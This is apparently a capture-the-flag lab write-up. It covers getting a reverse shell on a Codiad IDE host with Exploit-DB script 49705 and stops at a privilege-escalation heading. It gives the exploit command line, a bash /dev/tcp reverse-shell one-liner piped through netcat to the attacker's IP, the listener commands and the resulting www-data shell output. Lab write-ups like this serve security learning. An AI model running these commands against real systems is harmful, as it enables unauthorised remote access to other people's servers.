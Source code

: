success

![[codiad.png]]

https://www.exploit-db.com/exploits/49705

```
python 49705.py http://10.10.239.154:62337/ john password 10.6.24.127 1337 linux
```

after some trial and error, I noticed you need to have two listeners going at once

so run the python script with the arguments as seen 


```
python 49705.py http://10.10.239.154:62337/ john password 10.6.24.127 1337 linux
```

then the exploit script dictates to run the following command

```
echo 'bash -c "bash -i >/dev/tcp/10.6.24.127/1338 0>&1 2>&1"' | nc -lnvp 1337
```

it also specifies to run an additional command in another terminal

```
nc -lnvp 1338
```

this is what it looks like when ran successfully

![[webrevshells1.png]]

![[webrevshells2.png]]

![[webrevshells3.png]]


we get a successful reverse shell

```
www-data@ide:/var/www/html/codiad/components/filemanager$ whoami
whoami
www-data
www-data@ide:/var/www/html/codiad/components/filemanager$ uname -a
uname -a
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@ide:/var/www/html/codiad/components/filemanager$
```

# Privilege Escalation

### drac

